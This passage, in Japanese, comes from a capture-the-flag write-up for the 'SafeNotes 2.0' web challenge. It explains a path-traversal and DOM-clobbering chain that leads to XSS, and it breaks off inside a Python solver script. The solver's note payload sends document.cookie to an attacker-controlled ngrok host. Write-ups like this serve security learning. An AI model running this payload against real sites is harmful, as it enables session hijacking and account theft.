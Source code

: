 まとめると、ユーザー名が`....//....//....//contact?x=<img src=X onerror=alert(1)>`の状態で`/view`を訪れると次のような動作でXSSが行われる。
1. サニタイズされて、`sanitizedUsername`が`../../../contact?x=<img src=X onerror=alert(1)>`となる
2. `/api/notes/log/../../../contact?x=<img src=X onerror=alert(1)>`に対してPOSTが行われる。これは`/contact`にfetchするのと同様である。
3. `{"message": "Thank you for your message, ....//....//....//contact?x=<img src=X onerror=alert(1)>. We will be in touch!"}`というJSONが返却される。
4. 上記の内容が`document.getElementById("debug-content").outerHTML`に代入される
5. `alert(1)`が実行される。

次にユーザー名を任意に指定する方法だが、ユーザー作成時のユーザー名の最大の長さは20文字であるため、上記のようなユーザー名では登録できない。したがって、別の方法をとる必要がある。

`logNoteAccess`でユーザー名を取得する箇所をよく読むと、次のようになっている。
```javascript:view.html
const currentUsername = document.getElementById("username").innerText;
const username = currentUsername || urlParams.get("name");
```

`/view?note=<ノートID>&name=<ユーザ名>`でも良さそうに思えるが、ノートをfetchする前に一度URLの書き換えが行われるため、urlParamsを利用することはできない。

```javascript:view.html
function validateAndFetchNote(noteId) {
    if (noteId && isValidUUID(noteId.trim())) {
        history.pushState(null, "", "?note=" + noteId);
        fetchNoteById(noteId);
    } else {
        showFlashMessage(
            "Please enter a valid note ID, e.g. 12345678-abcd-1234-5678-abc123def456.",
            "danger"
        );
    }
}
```

次に、`document.getElementById("username").innerText`の結果を変えることを考える。`getElementById`は同じIDの要素が複数ある場合、最初の要素が選択される。`<span id="username">{{ username }}</span>`は`<div id="note-content" class="note-content"></div>`より後にあるため、作成したノートにIDが`username`の要素が含まれるならば、そちらの値が優先される。

幸いにも、DOMPurifyのデフォルトではIDのアトリビュートは削除されないので、作成するノートの中にユーザー名を記述することで、任意のユーザー名を指定することができる。

以下が最終的なソルバー

```python:solver.py
import requests
import re

URL = "https://safenotes2-0.ctf.intigriti.io/"
# URL = "http://127.0.0.1/"
EVIL = "https://tchenio.ngrok.io/"

s = requests.session()
r = s.get(URL + "register")
csrf = re.findall(r'<input id="csrf_token" name="csrf_token" type="hidden" value="(.+)">', r.text)[0]
user = {
    "username": "foo",
    "password": "bar",
    "csrf_token": csrf
}
r = s.post(URL + "register", data=user)
r = s.post(URL + "login", data=user)
print(r.text)

r = s.post(URL + "api/notes/store", json={
    "content": f"<div id='debug-content'></div><div id='username'>....//....//....//contact?x=&lt;img src=X onerror=document.location.assign('{EVIL}'+document.cookie)&gt;</div>"
    
}, headers={
    "X-Csrftoken": csrf
```